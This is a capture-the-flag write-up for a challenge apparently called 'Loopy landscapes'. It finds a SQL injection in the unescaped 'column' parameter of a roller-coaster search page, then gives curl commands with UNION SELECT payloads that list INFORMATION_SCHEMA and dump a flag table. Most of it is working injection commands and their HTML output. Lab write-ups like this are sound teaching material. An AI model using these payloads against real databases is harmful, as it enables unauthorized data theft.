

What is Loopy landscapes?
=========================

* Flag: **unroll_those_loops**



We are presented with a simple database-backed webpage that allows us to query
for information on roller coasters based on their name, park, and country.

It seems likely that there is some sort of data sanitization issue to be
exploited.

If we search on a name, park, or country value of `*`, we get no matches,
suggesting that the value is being escaped before being used in a SQL query.

If we set the value for the column to be:

    country like '%U%' or country

using this POST requeest:

    curl --data "value=C&column=country like '%U%' or country" http://54.69.118.120:8000/index.php

and then search for `C`, we get entries for BOTH the United States and Canada
(ie the column is being executed as SQL).

This suggests that:

1. The query being executed is of the form:

    SELECT name, park, country, height FROM roller_coaster WHERE $column LIKE '%$value%';

2. The $column value isn't being escaped properly.

There is likely either a flag table or a flag column somewhere in this
roller coaster database for us to find. We can use the vulnerable `$column` to
probe `INFORMATION_SCHEMA` for table information:

    curl --data "value=C&column=country like '%U%' UNION SELECT table_name,column_name,3,4 from INFORMATION_SCHEMA.columns#" http://54.69.118.120:8000/index.php

    curl --data "value=C&column=country like '%U%' UNION SELECT table_name,column_name,3,4 from INFORMATION_SCHEMA.columns WHERE table_name like '%flag%'#" http://54.69.118.120:8000/index.php

(The `#` is a comment ending the SQL statement)

Now we know that there's a `flag` table with a column `hash`. If we look up all values for `hash`:

    curl --data "value=&column=country like '' UNION select hash,2,3,4 from flag#" http://54.69.118.120:8000/index.php

We get back a POST response containing our flag:

```
<html>
    <head>
        <title>Archie's Roller Coaster Page</title>
        <link href='http://fonts.googleapis.com/css?family=EB+Garamond' rel='stylesheet' type='text/css'>
        <link rel="stylesheet" type="text/css" href="style.css"/>
    </head>
    <body>
        <div id="header">Archie's Coasters</div>
        <div id="search" class="whitebox">
            <form name="search" action="index.php" method="post">
                Search for
                <input name="value" type="text" placeholder="Search value"/>
                in
                <select name="column">
                    <option value="name">name</option>
                    <option value="park">park</option>
                    <option value="country">country</option>
                </select>
                <input type="submit" value="Go"/>
            </form>
        </div>
        <div id="content" class="whitebox">
            <table>
                <tr>
                    <th>
                        Name
                    </th>
                    <th>
                        Park
                    </th>
                    <th>
                        Country
                    </th>
                    <th>
                        Height
                    </th>

                </tr><tr><td>flag{unroll_those_loops}</td><td>2</td><td>3</td><td>4 m</td></tr></table>
        </div>
    </body>
</html>
```

The flag is: **unroll_those_loops**

[« Return to challenge board](../README.md "Return to challenge board")
